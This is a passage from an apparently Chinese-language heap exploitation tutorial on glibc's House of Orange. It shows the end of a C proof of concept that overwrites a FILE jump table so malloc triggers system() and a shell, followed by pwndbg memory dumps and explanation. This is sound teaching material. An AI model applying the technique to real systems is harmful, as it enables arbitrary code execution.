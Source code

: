 ```c


    /*
      4) Finally set the jump table to controlled memory and place system there.
      The jump table pointer is right after the FILE struct:
      base_address+sizeof(FILE) = jump_table

         4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
    */

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8


    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);

   /*
     The libc's error message will be printed to the screen
     But you'll get a shell anyways.
   */

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    syscall(SYS_exit, 0);
    return 0;
}

```

整个代码中并没有free的操作，而是通过扩展top chunk时对old top chunk执行_int_free来创建free chunk。

p1指向0x400大小的一块内存，同时观察下top chunk，可以看到此时topchunk就在p1+0x3f0(0x400 - 0x10)的位置，其大小为0x20c01(0x21000-0x400):

```bash
pwndbg> x/4gx p1 - 0x10
0x602000: 0x0000000000000000 0x0000000000000401
0x602010: 0x0000000000000000 0x0000000000000000

pwndbg> x/4gx p1+0x3f0
0x602400: 0x0000000000000000 0x0000000000020c01
0x602410: 0x0000000000000000 0x0000000000000000
```

此时，更改topchunk的大小，该大小必须页对齐，同时prev_inuse被置为1。这样做的目的是为了下一次malloc一定大小(大于topchunk更改后的大小)时，可以将剩下的top chunk释放掉，插入unsorted bin。
